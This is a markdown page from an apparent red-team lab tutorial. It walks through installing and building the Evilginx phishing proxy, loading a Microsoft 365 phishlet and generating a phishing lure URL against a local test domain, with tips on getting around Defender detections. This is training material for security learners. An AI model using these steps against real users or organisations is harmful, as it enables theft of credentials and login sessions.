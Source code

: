 # Quest 1 - Buckle up!

**[🏠Home](../README.md)** - [ Quest 2 >](quest2.md)

In this tutorial, you will perform basic deployments to set up your environment for the hands-on lab. You will also learn how to install a phishing simulation tool to prepare for the next quest.

## Installation for hands-on lab

### Step 0: Consider using a virtual sandbox to keep your machine "clean"

A common practice for "playing" with hacking tools is to utilize an isolated environment. This can be a virtual machine or a container. This way, you can keep your main machine clean and avoid any unintended consequences. Below are a couple of suggestions.

* Local virtual machines (embedded in your physical device)
    * [Hyper-V on Windows 10](https://docs.microsoft.com/virtualization/hyper-v-on-windows/quick-start/enable-hyper-v) or
    * [VirtualBox](https://www.virtualbox.org/) or similar.
* Remote virtual machines (Hyperscaler options)
    * Spin up environments with [Azure VMs](https://azure.microsoft.com/free/) with free credits or
    * Any other available to you.
* Containerized options
    * Use environments like [Docker](https://www.docker.com/products/docker-desktop) on Windows or
    * Podman on linux.

Our guidance here refers to a windows environment on an Azure VM. You can adjust the steps to your environment.

### Step 1: Install Evilginx3

```bash
git clone https://github.com/kgretzky/evilginx2.git
```

> [!TIP]
> If you have not installed a Git client, you can also go directly to the [Evilginx3 repo](https://github.com/kgretzky/evilginx2), click on *Code* and *Download ZIP*. Once the ZIP file is downloaded extract it to your virtual machine. 

> [!IMPORTANT]
> Many of you will run into Defender detections with the executable upon [download](https://github.com/kgretzky/evilginx2/releases). Consider building the tool from source in such cases.

#### Build from source

- Install [golang](https://go.dev/doc/install)
- Restart your terminal and verify the installation with `go version` command.

```bash
cd evilginx2
.\build_run.bat
```

- Allow Access on subsequent Defender firewall prompt like a vigilante in the making.

#### (Alternative) Install the pre-built version

In case you are lucky you can follow the normal install steps:

- Get the latest release from the [releases page](https://github.com/kgretzky/evilginx2/releases) (Assets -> evilginx*-64bit.zip) and follow the [quick start guide](https://help.evilginx.com/docs/getting-started/deployment/local).

- Allow Access on subsequent Defender firewall prompt like a vigilante in the making.

### Step 2: Configure Evilginx3

```bash
config ipv4 127.0.0.1
config domain dsag-red-team.com
```

> [!NOTE]
> hackers use elusive domains like 'microsofttonline.com' to trick users. Outlook and M365 pick up such attempts, but other email clients may not. Note we use a domain that is not registered and only used for this tutorial.

- Find the root certificate in the `User` folder (%USERPROFILE%\.evilginx\crt) and install it on your machine.
- Add this certificate to the Trusted Root Certificate Authorities store of the Current User. Otherwise, you will get a certificate error when accessing the phishing page.

You may need to restart your machine for the changes to take effect.

### Step 3: Create or retrieve a phishlet for your scenario

We will use a sample phishlet for M365 shared by [Jan Bakker](https://github.com/BakkerJan/evilginx3/blob/main/microsoft365.yaml).

- Download it or find it in the `assets` folder of this repository [here](assets/m365-phishlet.yaml).
- Place the phishlet by placing it in `.\evilginx2\phishlets` folder of the prior cloned repos `evilginx2`. It contains the example phishlet.

Restart your instance for the changes to take effect like so:

```bash
q
build_run.bat
```

- Verify the M365 phishlet is now showing up.

> [!TIP]
> Always check for updates on the phishlets and the tool itself. Things are changing rapidly in the security world.

### Step 4: Prepare your phishing lure

```bash
phishlets hostname microsoft365 dsag-red-team.com
phishlets enable microsoft365 
```

#### Enhance hosts file for local testing

```bash
phishlets get-hosts microsoft365
```

- Add the output to your hosts file located at `C:\Windows\System32\drivers\etc\hosts`. You will need admin rights to edit this file.

#### Create your phishing lure

```bash
lures create microsoft365
lures get-url 0
```

- Open the URL in your browser to see the phishing page.
- Check the Evilginx3 console for the captured output so far ("new visitor has arrived" etc.).

## Where to next?

**[🏠Home](../README.md)** - [ Quest 2 >](quest2.md)

[🔝](#)
